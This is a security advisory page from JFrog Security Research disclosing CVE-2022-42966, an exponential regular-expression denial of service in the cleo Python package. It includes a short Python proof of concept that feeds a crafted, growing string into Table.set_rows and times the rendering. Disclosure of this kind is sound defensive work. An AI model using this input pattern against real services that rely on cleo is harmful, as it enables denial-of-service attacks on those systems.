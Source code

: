 === Content from research.jfrog.com_5d001033_20250108_121334.html ===

[![JFrog Security Research](/assets/static/jfrog-logo-svg.5788598.74a3bea875bf053c65a0663c9ec9a0fd.svg)](/)JFrog Security Research

* [Discover](/vulnerabilities/)
* [Follow JFrog Security
  ![twitter](/assets/static/twitter.e0519be.9769aec62433fd58c76ad32c2d613842.svg)](https://twitter.com/JFrogSecurity)
![Menu](/assets/static/hamburger.a58a0fd.dc5087fee70346d455e75c87bc430716.svg)![Menu](data:image/svg+xml...)![Menu](/assets/static/close.5cd2673.91b568c73f917f773ea7915d69802829.svg)

* [Home](/)
* [Discover](/vulnerabilities/)
* [Follow JFrog Security](https://twitter.com/JFrogSecurity)
[< Back](/vulnerabilities/)
# XRAY-257186 - cleo ReDoS

CVE-2022-42966
| CVSS 5.9

 JFrog Severity:medium

Discovered By**Denys Vozniuk**of the JFrog Security Research Team

Published 15 Oct, 2022 | Last updated 15 Oct, 2022

## [Summary](#summary)

Exponential ReDoS in cleo leads to denial of service

## [Component](#component)

[cleo](https://pypi.org/project/cleo)

## [Affected versions](#affected-versions)

cleo (,)

## [Description](#description)

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the cleo PyPI package, when an attacker is able to supply arbitrary input to the `Table.set_rows` method

## [PoC](#poc)

```
import time

from cleo import ui
from cleo.io.buffered_io import BufferedIO

from cleo.ui.table import Table
from cleo.ui.table_cell import TableCell
from cleo.ui.table_separator import TableSeparator
from cleo.ui.table_style import TableStyle
from cleo.ui.table_cell_style import TableCellStyle

def column_style(i):
    io = BufferedIO()
    table = Table(io)
    table.set_headers(["ISBN", "Title", "Author", "Price"])

    table.set_rows([
                ["99921-58-10-7", "Divine Comedy", "Dante Alighieri"],
                TableSeparator(),
                [TableCell('<0=,' + '000=0'*i + '00=0>', colspan=3,style=TableCellStyle())],
                TableSeparator(),
                [TableCell("Arduino: A Quick-Start Guide", colspan=2), "Mark Schmidt"],
                TableSeparator(),
                ["9971-5-0210-0", TableCell("A Tale of \nTwo Cities", colspan=2)],
            ])

    style = TableStyle()
    style.set_pad_type("left")
    table.set_column_style(3, style)
    table.set_column_style(2, style)

    table.render()

for i in range(1000):
    start = time.time()
    try:
        column_style(i)
    except:
        pass
    print(f"{i}: Done in {time.time() - start}")

```
## [Vulnerability Mitigations](#vulnerability-mitigations)

No mitigations are supplied for this issue

## [References](#references)

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42966)

[< Back](/vulnerabilities/)[![JFrog Security Research](/assets/static/jfrog-logo-svg.5788598.74a3bea875bf053c65a0663c9ec9a0fd.svg)](/)

* [Terms of Use](https://jfrog.com/terms-of-use/)
* [Cookies Policy](https://jfrog.com/jfrog-cookies-policy/)
* [Privacy Policy](https://jfrog.com/privacy-policy/)
* Cookies Settings

©2025 All Rights Reserved. JFrog Ltd.


